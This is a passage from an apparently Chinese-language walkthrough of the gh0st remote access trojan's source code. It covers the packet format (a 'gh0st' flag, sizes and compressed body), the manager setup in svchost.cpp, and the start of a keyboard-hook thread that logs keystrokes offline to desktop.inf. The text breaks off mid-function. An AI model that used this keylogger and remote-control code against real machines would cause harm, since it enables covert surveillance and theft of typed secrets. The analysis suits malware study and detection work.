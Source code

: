 ##### gh0st 的通信协议

根据上面的流程，我们可以得到 **gh0st** 网络通信协议包的格式，我们用一个结构体来表示一下：

```
//让该结构体以一个字节对齐
#pragma pack(push, 1)
struct Gh0stPacket
{
    //5字节package flag: 内容是gh0st
    char flag[5];
    //4字节的包大小
    int32_t packetSize;
    //4字节包体压缩前大小
    int32_t bodyUncompressedSize;
    //数据内容，长度为packetSize-13
    char data[0];
}
#pragma pack(pop)
```

当发送数据装包的过程和这个解包的过程刚好相反，位于上面说的 **CClientSocket::Send** 函数里面，这里就不再重复介绍了。



##### 工作线程二

我们刚才介绍了，当解析完一个完整的数据包后，把它放入CClientSocket 的成员变量 **m_DeCompressionBuffer** 中，然后交给 **m_pManager->OnReceive()** 函数处理，**m_pManager** 是一个基类 **CManager** 对象指针，其 **OnReceive** 函数我们要看其指向的子类方法的具体实现。这个对象在哪里设置的呢？

在我们上面介绍的程序主脉络中我们说主线程中有一个步骤是**等待控制端发送激活命令**，这个步骤有这样一段代码：

```
//svchost.cpp 220行
CKernelManager	manager(&socketClient, strServiceName, g_dwServiceType, strKillEvent, 
						lpszHost, dwPort);
socketClient.setManagerCallBack(&manager);
```

在这里我们可以得出 **CClientSocket.m_pManager** 指向的实际对象是 **CKernelManager**，同时在 CKernelManager 的**构造函数中**又新建了一个工作线程，线程函数叫 **Loop_HookKeyboard**。

```
//KernelManager.cpp 111行
m_nThreadCount = 0;
// 创建一个监视键盘记录的线程
// 键盘HOOK跟UNHOOK必须在同一个线程中
m_hThread[m_nThreadCount++] =
MyCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Loop_HookKeyboard, NULL, 0, NULL, true);
```

这个线程句柄被保存在 CKernelManager 的 **m_hThread** 数组中。线程函数 **Loop_HookKeyboard** 内容如下：

```
//Loop.h 76行
DWORD WINAPI Loop_HookKeyboard(LPARAM lparam)
{
    TCHAR szModule[MAX_PATH - 1];
    TCHAR	strKeyboardOfflineRecord[MAX_PATH];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    CKeyboardManager::MyGetSystemDirectory(strKeyboardOfflineRecord, ARRAYSIZE(strKeyboardOfflineRecord));
    lstrcat(strKeyboardOfflineRecord, TEXT("\\desktop.inf"));

    if (GetFileAttributes(strKeyboardOfflineRecord) != INVALID_FILE_ATTRIBUTES /*- 1*/)
    {
        int j = 1;
        g_bSignalHook = j;
    }
    else
```